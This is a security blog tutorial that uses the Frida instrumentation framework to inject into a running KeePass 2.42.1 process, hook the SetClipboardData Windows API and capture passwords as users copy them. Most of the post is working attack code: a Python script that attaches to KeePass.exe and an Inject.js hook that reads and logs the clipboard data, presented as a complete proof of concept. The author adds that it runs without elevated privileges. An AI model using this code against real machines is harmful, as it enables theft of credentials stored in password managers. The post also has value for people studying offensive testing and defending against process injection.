








In this post, we’re going to take a quick look at Frida and use it to steal credentials from KeePass.According to their website, Frida is a “dynamic instrumentation framework”. Essentially, it allows us to inject into a running process then interact with that process via JavaScript. It’s commonly used for mobile app testing, but is supported on Windows, OSX and *Nix as well. KeePass is a free and open-source password manager with official builds for Windows, but unofficial releases exist for most Linux flavors. We are going to look at the latest official Windows version 2 release (2.42.1).To follow along, you will need Frida, KeePass and Visual Studio (or any other editor you want to load a .net project in). You will also need the KeePass source from https://keepass.info/download.html The first step is figuring out what we want to achieve. Like most password managers, KeePass protects stored credentials with a master password. This password is entered by the user and allows the KeePass database to be accessed. Once unlocked, usernames and passwords can be copied to the clipboard to allow them to be entered. Given that password managers allow the easy use of strong passwords, it’s a fairly safe assumption that users will be copying and pasting passwords. Lets take at look how KeePass interacts with the clipboard. After a bit of digging (hit: the search tool is your friend), we find some references to the “SetClipboardData” windows API call. It looks like KeePass is hooking the native Windows API to manage the clipboard.  Looking at which calls reference this method, we find one reference within the ClipboardUtil.Windows.cs class.  It looks like the “SetDataW” method is how KeePass interacts with the clipboard. 123456789101112131415161718192021222324private static bool SetDataW(uint uFormat, byte[] pbData){ UIntPtr pSize = new UIntPtr((uint)pbData.Length); IntPtr h = NativeMethods.GlobalAlloc(NativeMethods.GHND, pSize); if(h == IntPtr.Zero) { Debug.Assert(false); return false; } Debug.Assert(NativeMethods.GlobalSize(h).ToUInt64() >= (ulong)pbData.Length); // Might be larger IntPtr pMem = NativeMethods.GlobalLock(h); if(pMem == IntPtr.Zero) { Debug.Assert(false); NativeMethods.GlobalFree(h); return false; } Marshal.Copy(pbData, 0, pMem, pbData.Length); NativeMethods.GlobalUnlock(h); // May return false on success if(NativeMethods.SetClipboardData(uFormat, h) == IntPtr.Zero) { Debug.Assert(false); NativeMethods.GlobalFree(h); return false; } return true;} This code uses native method calls to allocate some memory, writes the supplied pbData byte array to that location and then calls the SetClipBoardData API, passing a handle to the memory containing the contents of pbData. To confirm this is the code we want to target, we can add a breakpoint and debug the app. Before we can build the solution, we need to fix up the singing key. The easiest way is just to disable signing for the KeePass and KeePassLib projects (Right click -> Properties -> Signing -> uncheck “Sign the assembly” -> save). With our breakpoint set we can run KeePass, open a database and copy a credential (right click -> copy password). Our breakpoint is hit and we can inspect the value of pbData. If you get a build error, double check you have disabled signing and try again.  In this case, the copied password was “AABBCCDD”, which matches the bytes shown. We can confirm this by adding a bit of code to the method and re-running our test. 1var str = System.Text.Encoding.Default.GetString(pbData); This will convert the pbData byte array to a string, which we can inspect with the debugger.  This looks like a good method to target, as the app only calls the SetClipboardData native API in one place (meaning we shouldn’t need to filter out any calls we don’t care about). Time to fire up Frida. Before we get into hooking the KeePass application, we need a way to inject Frida. For this example, we are going to use a simple python3 script. 123456789101112131415161718192021222324252627import fridaimport sysimport codecsdef on_message(message, data): if message['type'] == 'send': print(message['payload']) elif message['type'] == 'error': print(message['stack']) else: print(message)try: session = frida.attach("KeePass.exe") print ("[+] Process Attached")except Exception as e: print (f"Error => {e}") sys.exit(0)with codecs.open('./Inject.js', 'r', 'utf-8') as f: source = f.read()script = session.create_script(source)script.on('message', on_message)script.load()try: while True: passexcept KeyboardInterrupt: session.detach() sys.exit(0) This looks complicated, but doesn’t actually do that much. The interesting part happens inside the try/catch block. We attempt to attach to the “KeePass.exe” process, then inject a .js file containing our code to interact with the process and set up messaging. The “on_message” function allows messages to be received from the target process, which we just print to the console. This code is basically generic, so you can re-use it for any other process you want to target. Our code to interact with the process will be written in the “Inject.js” file. First, we need to grab a reference to the SetClipboardData API. 1var user32_SetClipboardData = Module.findExportByName("user32.dll", "SetClipboardData") We can then attach to this call, which sets up our hook. 123456789// Attach a hook to the native pointerInterceptor.attach(user32_SetClipboardData, { onEnter: function (args, state) { console.log("[+] KeePass called SetClipboardData"); }, onLeave: function (retval) { }}); The “OnEnter” method is called as the target process calls SetClipboardData. OnLeave, as you might expect, is called just before the hooked method returns. I’ve added a simple console.log call to the OnEnter function, which will let us test our hook and make sure we aren’t getting any erroneous API calls showing up. With KeePass.exe running (you can use the official released binary now, no need to run the debug version from Visual Studio), run the python script. You should see the “process attached” message. Unlock KeePass and copy a credential. You should see the “KeePass called SetClipboardData” message.  KeePass, by default, clears the clipboard after 12 seconds. You will see another “KeePass called SetClipboardData” message when this occurs. We can strip that out later. Looking at the SetClipboardData API document, we can see that two parameters are passed.  A format value, and a handle. The handle is essentially a pointer to the memory address containing the data to add to the clipboard. For this example, we can safely ignore the format value (this is used to specify the type of data to be added to the clipboard). KeePass uses one of two format values, I’ll leave it as an exercise for the reader to modify the PoC to support both formats fully. The main thing we need to know is that the second argument is the memory address we want to access. In Frida, we gain access to arguments passed to hooked methods via the “args” array. We can then use the Frida API to read data from the address passed to hMem. 1234567891011121314// Get native pointer to MessageBoxA var user32_SetClipboardData = Module.findExportByName("user32.dll", "SetClipboardData") // Attach a hook to the native pointer Interceptor.attach(user32_SetClipboardData, { onEnter: function (args, state) { console.log("[+] KeePass called SetClipboardData"); var ptr = args[1].readPointer().readByteArray(32); console.log(ptr) }, onLeave: function (retval) { } }); Here we call readPointer() on args[1], then read a byte array from it. Note that the call to readByteArray() requires a length value, which we don’t have. While it should be possible to grab this from other calls, we can side step this complexity by simply reading a set number of bytes. This may be a slightly naive approach, but it’s sufficient for our purposes. Kill the python script and re-run (you don’t need to re-start KeePass). Copy some data and you should see the byte array written to the console.  Frida automatically formats the byte array for us. We can see the password “AABCCDD” being set on the clipboard, followed by “ — “ 12 seconds later. This is the string KeePass uses to overwrite the clipboard data. This is enough information to flesh out our PoC. We can convert the byte array to a string, then check if the string starts with “ — “ to remove the data when KeePass clears the clipboard. Note that is is, again, a fairly naive approach and introduces an obvious bug where a password starting with “ — “ would not be captured. Another exercise for the reader! This gives us our complete PoC. 1234567891011121314151617181920212223// Get native pointer to MessageBoxAvar user32_SetClipboardData = Module.findExportByName("user32.dll", "SetClipboardData")// Attach a hook to the native pointerInterceptor.attach(user32_SetClipboardData, { onEnter: function (args, state) { console.log("[+] KeePass called SetClipboardData"); var ptr = args[1].readPointer().readByteArray(32); var str = ab2str(ptr); if(!str.startsWith("--")){ console.log("[+] Captured Data!") console.log(str); } else{ console.log("[+] Clipboard was cleared") } }, onLeave: function (retval) { }});function ab2str(buf){ return String.fromCharCode.apply(null, new Uint16Array(buf));} The ab2str function converts a byte array to a string, the rest should be self explanatory. If we run this PoC we should see the captured password and a message telling us the clipboard was cleared.  That’s all for this post. There is obviously some work to do before we could use this on an engagement, but we can see how powerful Frida can be. It’s worth noting that you do not need any privileges to inject into the KeePass process, all the examples were run with KeePass and CMD running as a standard user. ← Previous Post